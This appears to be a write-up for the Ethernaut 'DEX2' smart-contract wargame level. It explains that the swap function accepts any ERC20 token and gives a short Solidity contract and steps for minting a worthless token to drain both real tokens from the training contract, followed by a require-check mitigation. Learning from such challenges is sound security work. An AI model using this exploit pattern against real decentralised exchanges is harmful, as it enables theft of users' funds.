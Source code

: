 ```yaml
---
title: Level 23 - DEX2
slug: level-23
published: 05-22-2023
lastEdited:
imgSrc: /images/ethernaut/ethernaut23.svg
---
```


## Objectives

## Vulnerabilities

### Swap open to any ERC20 tokens

The `swap` function is available to any ERC20 tokens. It is therefore easy to create yout own ERC20 and some to your EOA
and some to the DEX2 contract. With this you can swap your worthless tokens for the real ones.

## Exploit

1. Write and deploy a new ERC20 token. Given mint a small amount to the DEX2 contract and a big amount to yourself.
   You can use this hack contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/token/ERC20/ERC20.sol";

contract Hacktoken is ERC20 {
    constructor(address _targetAddress) ERC20("Hack Token", "HT") {
        _mint(msg.sender, 1000);
        _mint(_targetAddress, 1);
    }
}
```

2. Approve the amount of Hack tokens your need to transfer to get 100 token 1.

3. Swap that amount to steal all of token 1.

4. Repeat step 2 and 3 for token 2.

## Suggested mitigation

1. Add back the `require` that was taken out from level 22.

```solidity
require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
```

## Further reading
